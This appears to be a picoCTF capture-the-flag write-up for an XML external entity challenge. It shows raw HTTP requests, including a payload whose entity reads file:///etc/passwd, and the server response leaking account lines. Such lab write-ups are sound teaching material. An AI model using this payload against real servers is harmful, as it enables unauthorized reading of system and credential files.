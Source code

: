 `initial data`
```
POST /data HTTP/1.1
Host: saturn.picoctf.net:65323
Content-Length: 61
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:65323
Referer: http://saturn.picoctf.net:65323/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?><data><ID>3</ID></data>
```

Accordingly, we need to declare `DOCTYPE` as the tag to display the content, define an arbitrary variable after `ENTITY`, then insert the `command`, and finally reference the entity variable in the previously declared tag.

`final data`
```
POST /data HTTP/1.1
Host: saturn.picoctf.net:65323
Content-Length: 128
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://saturn.picoctf.net:65323
Content-Type: application/xml
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://saturn.picoctf.net:59078/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ID [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<data><ID>&test;</ID></data>
```

`response`
```
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Fri, 21 Feb 2025 11:37:22 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1023
Connection: close

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
```